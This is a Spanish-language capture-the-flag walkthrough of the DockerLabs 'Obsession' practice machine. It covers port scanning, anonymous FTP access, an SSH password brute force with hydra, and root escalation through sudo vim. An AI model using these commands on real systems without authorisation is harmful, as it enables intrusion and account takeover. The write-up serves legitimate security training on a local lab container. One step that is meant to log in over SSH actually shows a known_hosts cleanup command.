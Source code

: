 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "Obsession".
Una vez hecho , descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh obsession.tar
```
Tras desplegarse la maquina, hacemos un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 -n -Pn -vvv 172.17.0.2
```
y vemos que tiene 3 puertos abiertos, el 21 (FTP), el 22 (SSH) y el 80 (HTTP):
```
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 21/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
```
Resulta que el puerto 21 (FTP) nos permite entrar como usuario anonimo, y ademas continene 2 archivos, asi que probaremos a entrar por aqui:
```
ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0             667 Jun 18 03:20 chat-gonza.txt
|_-rw-r--r--    1 0        0             315 Jun 18 03:21 pendientes.txt
```
Tras haber entrado con el comando "ftp 172.17.0.2" y poner el usuario "anonymous" (sin contraseña), nos descargaremos ambos archivos para trabajarlos en local:
```
get chat-gonza.txt
get pendientes.txt
```
Hecho esto, hacemos un "cat" a ambos para ver si tienen informacion relevante:
```
cat chat-gonza.txt       

[16:21, 16/6/2024] Gonza: pero en serio es tan guapa esa tal Nágore como dices?
[16:28, 16/6/2024] Russoski: es una auténtica princesa pff, le he hecho hasta un vídeo y todo, lo tengo ya subido y tengo la URL guardada
[16:29, 16/6/2024] Russoski: en mi ordenador en una ruta segura, ahora cuando quedemos te lo muestro si quieres
[21:52, 16/6/2024] Gonza: buah la verdad tenías razón eh, es hermosa esa chica, del 9 no baja
[21:53, 16/6/2024] Gonza: por cierto buen entreno el de hoy en el gym, noto los brazos bastante hinchados, así sí
[22:36, 16/6/2024] Russoski: te lo dije, ya sabes que yo tengo buenos gustos para estas cosas xD, y sí buen training hoy
```

```
cat pendientes.txt

1 Comprar el Voucher de la certificación eJPTv2 cuanto antes!
2 Aumentar el precio de mis asesorías online en la Web!
3 Terminar mi laboratorio vulnerable para la plataforma Dockerlabs!
4 Cambiar algunas configuraciones de mi equipo, creo que tengo ciertos
  permisos habilitados que no son del todo seguros..
```
En principio, el segundo no parece darnos informacion muy relevante, sin embargo, el primer archivo, nos proporciona 2 nombres: "gonza" y "russoski".
Es momento de probar la FUERZA BRUTA con ambos usuarios e HYDRA, para ver si podemos obtener las contraseñas de ambos (o al menos, de uno de ellos), por lo que lanzaremos los siguientes comandos:
```
hydra -l gonza -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
Con este usuario, no hemos obtenido nada. Probaremos ahora con el otro usuario: "russoski":
```
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
Y obtenemos en este caso la contraseña:
```
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
```
Es momento entonces de acceder al puerto 22 (SSH), con estas credenciales:
```
ssh-keygen -f '/root/.ssh/known_hosts' -R '172.17.0.2'
```
Y tras escribir "yes" en la primera pregunta e introducir la contraseña obtenida con HYDRA cuando nos piden el password, ya estariamos dentro.
```
russoski@05350891ffe2:~$ whoami
russoski
russoski@05350891ffe2:~$
```
Ahora intentaremos hacer una escalada de privilegios. Para ello, como siempre, empezariamos con el comando "sudo -l" y que, en este caso, nos mostraria:
```
russoski@05350891ffe2:~$ sudo -l

Matching Defaults entries for russoski on 05350891ffe2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User russoski may run the following commands on 05350891ffe2:
    (root) NOPASSWD: /usr/bin/vim  <== Intentaremos hacer la escalada con "vim"
    
russoski@05350891ffe2:~$
```
Como se puede observar, tendriamos permisos de "root", sin password, con el binario "vim", por lo que iremos a la pagina de "gtfobins" a buscarlo (o con el comando "searchbins", si lo tuviesemos instalado).
Una vez en GTFObins, buscaremos "vim", y elegiremos el apartado "sudo", lo que nos mostrara lo siguiente:
```
sudo vim -c ':!/bin/sh'
```
En este caso y respetando siempre la RUTA ABSOLUTA, escribiriamos:
```
russoski@05350891ffe2:~$ sudo /usr/bin/vim -c ':!/bin/sh'

# whoami
root
#
```
Tal y como se ve arriba, ya seriamos "root" con permisos. Tambien podriamos escribir: "bash -p" para obtener un "prompt" normal:
```
# bash -p
root@05350891ffe2:/home/russoski# whoami
root
root@05350891ffe2:/home/russoski#
```
Y con esto ya estaria la maquina hecha :)
